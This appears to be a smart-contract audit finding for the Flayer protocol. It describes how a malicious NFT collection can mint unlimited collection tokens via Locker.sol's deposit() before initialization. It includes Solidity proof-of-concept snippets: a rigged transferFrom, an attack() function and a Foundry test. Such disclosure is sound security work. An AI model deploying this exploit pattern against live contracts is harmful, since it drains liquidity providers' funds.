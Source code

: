Sour Amethyst Cricket

Medium

# Fraudulent collections can mint infinite collection tokens after they are created, but before they are initialized in `Locker.sol`

### Summary

A collection contract implementing the right logic can mint an infinite amount of collection tokens before it is initialized through `Locker.sol`'s `deposit()` function while maintaining the appearance and functionality of a legitimate NFT contract.

### Root Cause

`Locker.sol`'s [`deposit()` function](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Locker.sol#L144) calls `transferFrom()` on an address passed to the function. A contract at this address can call `createCollection()` on the Locker, pass its own address as the collection address, circumvent the `supportsInterface()` check, and establish itself as an existing but uninitialized collection. Then, it can bypass the `collectionExists()` check in `deposit()`, logically circumvent the `transferFrom()` callback, and receive as many collection tokens are specified according to `_tokenIds.length`. The logic required does not impact the collection's compatibility with the protocol or tradability, so it may appear completely legitimate.

### External Pre-Conditions
Any quantity of the Locker's native token is swapped into the LP

### Attack Path

BORED_APES, our malicious collection, is a copy of the ERC721 contract with a few modifications:

### 1. The `transferFrom()` function:
```solidity
function transferFrom(address from, address to, uint256 tokenId) public virtual override returns (bool) {

        if (from == address(this)) {
            return true;
        }

        require(_isApprovedOrOwner(_msgSender(), tokenId), "ERC721: caller is not token owner or approved");

        _transfer(from, to, tokenId);
    }
```
This function is modified to return `true` if transfers are being made out of the contract. This way, when `address(AttackLocker)` is passed to `deposit()`, all `transferFrom()` calls made on it will simply return `true` without doing anything. This part of the function is skipped, and now the function will mint to an address of our choosing as many `BORED_APES` collection tokens as we specify in `uint[] calldata tokenIds`. 

### 2. Attack Logic:
```solidity
    ILocker locker;

    /**
     * @dev Initializes the contract by setting a `name` and a `symbol` to the token collection.
     */
    constructor(string memory name_, string memory symbol_, address _locker) {
        _name = name_;
        _symbol = symbol_;
        locker = ILocker(_locker);
    }

    function attack(uint160 price, address attacker) external {
        uint[] memory tokenIdsForDeposit = new uint[](1000);
        uint[] memory tokenIdsForInit = new uint[](10);

        locker.createCollection(address(this), "BORED_APES (REAL)", "APE", 1);
        locker.deposit(address(this), tokenIdsForDeposit, address(attacker);
        locker.initializeCollection(address(this), 1 ether, tokenIdsForInit, 100 ether, price);
        
        for (uint i; i < 10; ++i) {
            _mint(address(locker), i);
        }
        
    }
```
1. The address of the Locker is given a simple interface, passed into the constructor, and initialized.
2. `createCollection()` is called, passing the contract's address.
3. `attack()` is called from an external address.
4. `deposit()` is called on the locker, which will mint as many BORED_APES collection tokens as `tokenIdsForDeposit.length` to an address of our choosing (in this case, `attacker`)
5. The contract is given a supply of the Locker's native tokens (WETH in the test case) and allowed to spend them, so that a WETH/CollectionToken LP may be established.
6. The collection is initialized, transferring the ETH and minting 10 (minimum collection size) BORED_APES collection tokens to the LP.
7. Since the collection cannot transfer tokens out of itself, we mint 10 BORED_APES to the locker.

Now that we have 10 BORED_APES in the Locker and 100 times their worth in collection tokens all to ourselves, any additional WETH deposited to the LP is ours at no cost.



### Impact

Attackers can establish collections that appear legitimate, but their entire market cap is effectively controlled by the attacker.

### PoC

I provided all the relevant logical snippets of my PoC above. The entire contract is several hundred lines, so it's a little long for this format. I would be happy to provide any clarifications or post it somewhere if needed.

The test (written in `Locker.t.sol`):
```solidity
function test_AttackLocker(uint8 _tokens) public {

        attackLocker = new AttackLocker("BORED_APES (REAL)", "APE", address(locker));
        _dealNativeToken(address(attackLocker), 1 ether);
        _approveNativeToken(address(attackLocker), address(locker), type(uint).max);
        attackLocker.attack(SQRT_PRICE_1_2, address(this));

        // LP has 100 collection tokens, we have 10000. Locker has 10 BORED_APES
        assertEq(locker.collectionToken(address(attackLocker)).balanceOf(address(this)), 10000 ether);
        assertApproxEqAbs(locker.collectionToken(address(attackLocker)).balanceOf(address(uniswapImplementation)), 100 ether, 3 ether);
        assertEq(attackLocker.balanceOf(address(locker)), 10);
    }
```